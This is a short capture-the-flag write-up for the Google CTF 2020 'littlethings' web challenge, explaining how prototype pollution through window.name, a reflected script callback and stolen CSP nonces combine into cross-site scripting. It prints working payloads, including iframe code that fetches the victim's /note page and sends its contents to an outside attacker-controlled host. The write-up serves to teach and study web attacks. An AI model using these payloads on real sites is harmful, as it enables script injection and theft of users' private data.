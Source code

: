 ## Owner:

> CaptainFreak

#### Solved?

 - No

#### Tried:

 Did not try much TBH

#### Solutions:

With prototype pollution(unintended solution) on window.name (because it is persisted in browser even if origin changes),
we override the user.theme.cb propoerty, which is used in 
`<script src='/theme?cb=${user.theme.cb}'>`

/theme?cb="payload" reflects payload in the response

By making window.name to on our attacker site

```
{
"__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}
}
=====
<script>
    x = `
        <h1> Hello </h1>
        
    `
    window.name = `{"x": ${JSON.stringify(x)}, "verbose": true, "showAll": true, "keepDebug": true, "__proto__": {"theme":{"cb":"document.body.innerHTML=window.name.valueOf"}}}`;
    parent.location = 'https://littlethings.web.ctfcompetition.com/settings?__debug__';
</script>
```

and making him redirect to ctf chall,
we can write the whole window.name to DOM of victim page of chall

So we have arbitrary HTMLi on littlethings domain

but its not full XSS yet cause of CSP nonce.

We can steal and apply this nonce on our own script tag by using multiple callbacks  and then writing arbitrary code to tag and it will execute it.

```
<iframe name=x title='fetch(&#x22;/note&#x22;).then(x=>x.text()).then(x=>top.locations=&#x22;//ctf.s1r1us.ninja?html=&#x22;+btoa(encodeURIComponent(x)))' id=y srcdoc='<script><\/script>'></iframe> 
	
<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.nonce=top.document.body.lastElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.nonce=top.x.nonce.valueOf ><\/script>'></iframe>

<iframe srcdoc='<script src=https://littlethings.web.ctfcompetition.com/theme?cb=top.x.document.head.lastElementChild.innerHTML=top.y.title.valueOf ><\/script>'></iframe>
```

Multiple ways to exfil data though, check out:

In Fixed version,
to get arbitrary HTMLi first, we dont have prototype pollution to the rescue,The challenge name was the hint towards it.

We need to use "document.all" which is undefined but still exists!!
then again after Arbitrary xss, we use CSP bypasses to the rescue.

- https://github.com/zoeyg/public-write-ups/blob/master/googlectf-2020/all-the-little-things.md
- https://blog.s1r1us.ninja/CTF/IuseBing






